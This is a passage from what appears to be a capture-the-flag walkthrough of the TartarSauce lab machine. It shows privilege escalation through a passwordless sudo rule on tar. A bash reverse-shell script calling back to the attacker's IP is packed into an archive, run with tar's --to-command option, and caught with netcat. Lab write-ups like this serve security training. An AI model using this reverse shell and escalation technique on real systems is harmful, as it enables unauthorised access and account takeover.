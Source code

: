     www-data@TartarSauce:/home$ ls
    onuma
    www-data@TartarSauce:/home$ cd onuma/
    bash: cd: onuma/: Permission denied
    

### sudo tar

Notice that user `www-data` can run `sudo` with no password for `/bin/tar`:

    
    
    www-data@TartarSauce:/dev/shm$ sudo -l
    Matching Defaults entries for www-data on TartarSauce:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on TartarSauce:
        (onuma) NOPASSWD: /bin/tar
    

### Two Ways to Escalate with sudo tar

#### –to-command

The take advantage of this, first create a shell script that will provide a
reverse shell to my host. Then put it into a tar archive.

    
    
    www-data@TartarSauce:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
    www-data@TartarSauce:/dev/shm$ tar -cvf a.tar a.sh
    a.sh
    

Then I’ll run `tar` with the `--to-command` option. This option takes the
output of the tar command, and passes it to another binary for processing. In
this case, I’m having my shell script to get a shell passed to bash to run it.

    
    
    www-data@TartarSauce:/dev/shm$ sudo -u onuma tar -xvf a.tar --to-command /bin/bash
    

And I get a callback as onuma:

    
    
    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 47320
    onuma@TartarSauce:/dev/shm$ id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    onuma@TartarSauce:/dev/shm$
    

#### –checkpoint-action

But even better, this privesc can be done in one line!
